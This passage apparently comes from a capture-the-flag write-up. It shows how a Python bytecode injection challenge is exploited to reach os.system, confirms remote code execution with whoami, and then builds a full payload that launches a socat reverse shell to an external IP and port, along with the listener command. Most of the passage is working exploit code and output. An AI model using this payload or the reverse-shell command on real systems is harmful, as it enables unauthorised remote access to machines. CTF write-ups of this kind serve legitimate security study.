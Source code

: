 ```
Hello!
What's your name?
Hello <built-in function system>!
It's nice to meet you!
```

Which means that we can run any system command by calling `system()`:

```python
payload =  b"t\x04"  # loads getattr
payload += b"t\x02\x83\x00" # globals
payload += put_on_stack("__import__") + b"\x19\x00" # __import__ function
payload += put_on_stack("os") + b"\x83\x01" # os module
payload += put_on_stack("system") + b"\x83\x02" # system function
payload += put_on_stack("whoami") + b"\x83\x01" # command to run
```

Output:
```
Hello!
What's your name?
Hello 0!
It's nice to meet you!
```

As we can see, the return code 0 is output, meaning we have RCE.

## Part 4: Getting A Shell

Although we have RCE, it is blind and non-interactive, meaning that we cannot obtain any output. Although we can use Python itself to provide a reverse shell, it turns out that `socat -V` succeeds, meaning that the `socat` binary is present on the machine:

```python
payload += put_on_stack("socat -V") + b"\x83\x01" # command to run
```

The output is the same as before, since the command succeeded.

There are some caveats to consider, however, since the challenge runs on a Docker container (as are all instance challenges in this CTF):
* `/bin/bash` is not present, so `/bin/sh` needs to be executed instead.
* The container does not have DNS support, so only IP addresses can be provided.

With that in mind, we can then have a reverse shell connect to a VPS, to a port forwarded computer, or through a TCP tunnel using ngrok, although there are probably other alternatives.

We run the following on the machine receiving the reverse shell: `socat file:`tty`,raw,echo=0 tcp-listen:4242`

The full payload is as follows:

```python
payload =  b"t\x04"  # loads getattr
payload += b"t\x02\x83\x00" # globals
payload += put_on_stack("__import__") + b"\x19\x00" # __import__ function
payload += put_on_stack("os") + b"\x83\x01" # os module
payload += put_on_stack("system") + b"\x83\x02" # system function
# The IP for the ngrok tunnel used changes frequently, so this has to be run promptly
payload += put_on_stack("socat exec:'sh -i',pty,stderr,setsid,sigint,sane tcp:3.20.98.123:11473 &") + b"\x83\x01" # runs socat
```
(socat is ran as a background process so that `os.system()` can return successfully)
